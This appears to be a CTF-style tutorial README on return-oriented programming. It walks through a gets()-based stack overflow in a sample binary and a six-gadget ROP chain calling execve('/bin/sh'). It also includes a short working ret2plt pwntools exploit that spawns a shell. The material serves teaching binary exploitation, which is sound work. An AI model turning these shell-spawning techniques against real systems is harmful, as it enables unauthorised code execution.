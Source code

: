 # What's ROP?
When we face the challenge of NX, we need to change our attacking way. Use gadget existing in memory to build up your shellcode again, and this is ROP! The gadget of ROP usually ends with **ret**, because ret can pop rip and help us control it!!  
Fowllowing are the condition we need to fullfill before we start ROP:  
1. Overwrite return address  
2. We can find gadgets, if PIE is open, we also should leak the address of gadgets!    
  
## How to find gadgets?
`pop rax; ret` would be better than `mov rax, <val>` because the there would no the piece of value you want in binary.  

Here comes an important concept when you try to find gadgets by hands:  
```
400732:  41 5f       pop r15
400734:  c3          ret
```
You can try to return to `400733`. CPU would parse it `5f c3` as `pop rdi; ret;` :)

## ROP (`/file/rop/`)
```c
...
int main(){

    init();

    puts( "Say hello to stack :D" );

    char buf[0x30];
    gets( buf );

    return 0;
}
```
This is a sample helping to figure out how ROP works. Check the makefile in folder, we can see that pie, canary are disabled. Also we should be able to find a lot of gadgets because it is static-linked.  
This code would open a buffer of 48 bytes to receive our input. We cannot use shellcode to launch attack because NX is enabled. How do I hijack the control flow to pop a shell?  
First step is to overwrite the return address of main function and go to gadget one:  
```
------------  <---- rsp
|          |
|          |  <-- 0x30 bytes
|          |
------------
| saved rbp|  <-- 0x8 bytes
------------
| ret addr |
------------
```
Therefore, we would use `0x38` bytes of junk data to overflow and overwrite return address then. Here, we know we can hijack the control flow. But what should our control flow be like? To pop up a shell, our ideal goal is to call `execve('/bin/sh', 0, 0)`. Take a look at [syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), `sys_execve` needs rax to be 59, rdi to be address of `/bin/sh`, then both rsi and rdx to be 0.  
To find the gadgets, here comes a popular tools: [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).  
I would not describe the whole process of finding gadgets, it costs a long time. I would directly introduce the control flow hijacked by my rop chain:  
```
-----------
pop rdi; ret;   <-- ret addr of main function (gadget 1)
-----------
    bss
-----------
pop rsi; ret;   <-- ret addr of gadget 1 (gadget 2)
-----------
 "/bin/sh\0"
-----------
mov qword ptr [rdi], rsi; ret;  <-- ret addr of gadget 2 (gadget 3)
-----------
pop rdx; pop rsi; ret;   <-- ret addr of gadget 3 (gadget 4)
-----------
     0
     0
-----------
pop rax; ret;    <-- ret addr of gadget 4 (gadget 5)
-----------
     59
-----------
  syscall     <-- ret addr of gadget 5 (gadget 6)
```
Here we use six gadgets to make the syscall of execve. Let me explain gadgets one by one.  
1. Gadget 1 is to put the address of string(`/bin/sh`) into rdi. We can find a writeable place in virtual memory (It's possible to ruin program), here I choose bss section. When `ret` is executed, stuff pointed by rsp would be poped into rip. Therefore, rip would point to gadget 1 and execute it. At the same time, rsp points to bss. When gadget 1 try to pop rdi, the bss would be put into rdi. In final step, stack would pop again with `ret` executed, so rip point to gadget 2.  
2. Gadget 2 is to put string(`/bin/sh`) into rsi because we plan to put it into the bss in further step. Same, pop rsi then string would be put into rsi. In final step, rip point to gadget 3.  
3. Gadget 3 is to put value of rsi which is `/bin/sh` into the address referred by rdi, which is bss. In final step, rip point to gadget 4.  
4. Gadget 4 is to give 0 to both rdx and rsi. In final step, rip point to gadget 5.  
5. Gadget 5 is to give 59 to rax, then rip point to gadget 6.  
6. Gadget 6, final gadget, make syscall.  

Exploit: (`/file/rop/exp.py` run with python2)

## ret2plt (`/file/ret2plt/`)
This binary has less gadgets because it uses dynamic linking. However, we won't need to build ropchain piece by piece this time. There is plt function which can do what we want to do; therefore, this time we would ret2plt. To call `system('sh')`, I would like to call `gets@plt` to input the string(`sh`), then call `system@plt`. This time, exploit is much shorter :)
```py
...
pop_rdi = 0x400733
bss = 0x6010a0
getsplt = 0x400530
systemplt = 0x400520

p = flat('a' * 0x38, pop_rdi, bss, getsplt, pop_rdi, bss, systemplt)

r.sendlineafter(':D', p)
r.interactive()
```
1. `gets()` would accept bss from rdi as its first parameter. Here, exploit would pop out a shell, then we can input our string `sh`, `gets` would help us to put the string to bss.
2. `system()` would accept bss from rdi as its first parameter. system locates to bss and find `sh` in it.

> ASLR is already opened here. But why we still can find the address of plt easily? Because ASLR won't randomize the base address of text section, the targets of ASLR are limited to stack, heap, and libc. If you want to randomize the text section, you need to open PIE.
  
## Practice  
Kinds of ROP | practice link  
------------ | --------------  
Would you like to try simple rop first? | [NTU 2017 ROP](https://github.com/shinmao/CTF-writeups/tree/master/NTU-CTF-2017/simple_rop)

